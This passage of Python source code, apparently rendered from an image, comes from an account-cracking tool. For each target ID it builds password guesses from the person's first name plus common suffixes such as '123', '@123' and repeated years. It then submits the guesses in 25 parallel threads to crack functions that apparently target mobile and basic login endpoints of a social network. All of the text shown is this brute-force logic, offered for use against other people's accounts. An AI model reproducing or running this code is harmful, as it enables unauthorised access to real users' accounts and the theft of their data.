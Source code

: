 					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')
					pwv.append("1122334455")
					pwv.append("1234512345")
					pwv.append("19901990")
					pwv.append("12345678900")
					pwv.append("19951995")
					pwv.append("20012001")
					pwv.append("20022002")
					pwv.append("20032003")
					pwv.append("20042004")
					pwv.append("20052005")

			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	exit()
def passwrd5():
	os.system('clear')
	banner()
	print("")
	with tred(max_workers=25) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(frs) == 3 or len(frs) == 4 or len(frs) == 5 or len(frs) == 6 or len(frs) == 7 or len(frs) == 8 or len(frs) == 9 or len(frs) == 10 or len(frs) == 11 or len(frs) == 12:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')
					pwv.append(frs+'123@')
					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')
					pwv.append("1122334455")
					pwv.append("1234512345")
					pwv.append("19901990")
					pwv.append("12345678900")
					pwv.append("19951995")
					pwv.append("20012001")
					pwv.append("20022002")
					pwv.append("20032003")
					pwv.append("20042004")
					pwv.append("20052005")